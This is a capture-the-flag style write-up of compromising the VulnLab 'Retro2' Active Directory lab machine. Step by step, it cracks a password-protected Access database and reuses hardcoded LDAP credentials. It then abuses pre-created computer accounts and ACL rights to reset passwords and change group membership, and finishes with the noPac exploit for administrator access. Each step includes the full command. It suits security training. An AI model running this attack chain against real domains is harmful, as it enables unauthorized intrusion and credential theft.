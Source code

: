 ```yaml
---
title: VulnLab -- Retro2 Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ACLs,pre2k]
image:
    path: ../images/Retro2-banner.png
---
```

# Retro2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro2-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 139,49173,5722,135,49154,3269,389,9389,636,464,3389,49155,49157,3268,49158 --min-rate=1000 10.10.103.242
```

![image.png](../images/retro2.png)

Now let’s enumerate the shares on the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares
```

![image.png](../images/retro2%201.png)

> We see we have access to a share named Public
> 

Now let’s try to access the share

```bash
smbclient \\\\retro2.vl\\Public -U "retro2.vl\guest"
```

![image.png](../images/retro2%202.png)

and we got access to two folders DB and TEMP

let’s go to the DB folder and see it’s content

```bash
cd DB
```

![image.png](../images/retro2%203.png)

we found an access document so let’s go download it and open it

```bash
get staff.accdb
```

![image.png](../images/retro2%204.png)

now let’s open the access file

![image.png](../images/retro2%205.png)

> Since the access file have a password let’s crack it
> 

First get the password hash

```bash
office2john staff.accdb > crackme.txt
```

![image.png](../images/retro2%206.png)

Now let’s crack the password

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/retro2%207.png)

we got the password for the office file which is class08

let’s go and open it again

![image.png](../images/retro2%208.png)

> We found a VB script that is making ldap query with hardcoded username and password
username: retro2\ldapreader
password: ppYaVcB5R
> 

Now let’s see if they are working!

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R
```

![image.png](../images/retro2%209.png)

Yeah they did now let’s get all the users in the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares --users --rid-brute 10000
```

![image.png](../images/retro2%2010.png)

now save the output and let’s extract the usernames

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro2%2011.png)

Now let’s get a bloodhound

![image.png](../images/retro2%2012.png)

now let’s open bloodhound and search for any interesting attack vector 

![image.png](../images/retro2%2013.png)

we didn’t find anything so let’s try to search for pre created computer accounts

```bash
nxc smb retro2.vl -u 'fs01$' -p 'fs01' 
```

![image.png](../images/retro2%2014.png)

Now let’s change it’s password

```bash
impacket-changepasswd retro2.vl/FS01$:fs01@10.10.103.242 -altuser ldapreader -altpas ppYaVcB5R
```

![image.png](../images/retro2%2015.png)

now let’s see what this computer can do

![image.png](../images/retro2%2016.png)

notice that our computer have generic write over another computer so let’s reset the ADMWS01 computer password

```bash
net rpc password ADMWS01$ -U retro2.vl/'FS01$'%'remo123$' -S 10.10.103.242
```

![image.png](../images/retro2%2017.png)

now let’s check if the password is changed!

```bash
nxc smb retro2.vl -u 'ADMWS01$' -p 'remo123$'
```

![image.png](../images/retro2%2018.png)

yes it changed so let’s go back to bloodhound and see what we can do now

![image.png](../images/retro2%2019.png)

> Out computer object can add a member to the service group
> 

Now let’s add the ldapreader to the service group

```bash
bloodyAD --host bln01.retro2.vl -d retro2.vl -u "ADMWS01$" -p "remo123$" add groupMember "SERVICES" "ldapreader"
```

![image.png](../images/retro2%2020.png)

Now since ldapreader is now member of the services group let’s see what this group can do

![image.png](../images/retro2%2021.png)

> Notice that the members of the services group can RDP to the machine
> 

Let’s RDP to the machine

```bash
xfreerdp /u:ldapreader /p:ppYaVcB5R /d:retro2.vl /v:10.10.103.242 /cert-ignore /tls-seclevel:0
```

![image.png](../images/retro2%2022.png)

Now let’s exploit the noPac bug to get admin privilege

```bash
python noPac.py retro2.vl/ldapreader:'ppYaVcB5R' -dc-ip 10.10.103.242 -shell --impersonate administrator -use-ldap
```

![image.png](../images/retro2%2023.png)

and we got admin privilege

so let’s go to the admin desktop and see the flag

```bash
dir c:\users\administrator\desktop
```

![image.png](../images/retro2%2024.png)

Amazing we got the root flag 🥳

![image.png](../images/retro2%2025.png)

That’s it for the **Retro2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX